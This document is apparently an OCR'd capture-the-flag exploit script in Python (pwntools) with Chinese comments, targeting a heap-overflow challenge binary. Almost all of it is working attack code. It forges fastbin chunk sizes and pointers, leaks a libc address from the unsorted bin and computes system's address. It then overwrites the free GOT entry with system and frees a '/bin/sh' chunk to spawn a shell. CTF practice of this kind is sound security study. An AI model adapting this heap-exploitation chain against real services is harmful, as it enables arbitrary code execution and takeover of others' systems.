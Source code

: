    ```python
   def free(index):
       p.sendlineafter(b':','2')
       p.sendlineafter(b'delete',str(index).encode())
   
   add(0x10)   #0 用来修改chunk1的fd指针
   add(0x10)   #1
   add(0x10)   #2 提供fd的高位地址
   add(0x10)   #3 用来修改chunk4的size字段
   add(0x80)   #4
   add(0x10)   #5 隔开top chunk
   
   #修改chunk1的fd指针，指向chunk4
   free(2)
   free(1)
   payload0 = p64(0)*3+p64(0x21)+p8(0x80)
   edit(0,payload0)
   
   payload3 = p64(0)*3+p64(0x21)   #修改chunk4的size，绕过申请时候的检查
   edit(3,payload3)
   add(0x10)   #1
   add(0x10)   #2 0x90chunk
   
   ##改回0x90chunk的大小
   payload3 = p64(0)*3+p64(0x91)
   edit(3,payload3)
   edit(2,"aaaa")
   edit(4,"bb")
   
   free(2)
   show(4)
   p.recv()
   
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x58)
   success("libc_addr==>"+hex(libc_base))
   
   system_addr = libc_base+libc.sym["system"]
   success("system_addr==>"+hex(system_addr))
   
   chunk_addr = 0x60209d
   add(0x68)   #4 
   free(4)		#修改其fd指针
   payload3 = p64(0)*3+p64(0x71)+p64(chunk_addr)
   edit(3,payload3)
   
   add(0x68)   #4
   add(0x68)   #6 申请得到伪造的chunk
   
   #溢出覆盖掉heaplist[0]中的指针
   payload6 = b"a"*19+p64(elf.got["free"])
   edit(6,payload6)
   
   #实现任意地址写，向free函数的got表中写入system函数地址
   payload0 = p64(system_addr)
   edit(0,payload0)
   
   payload3 = b"/bin/sh\x00"
   edit(3,payload3)
   free(3)
   p.sendline(b"find -name flag.txt")
   ```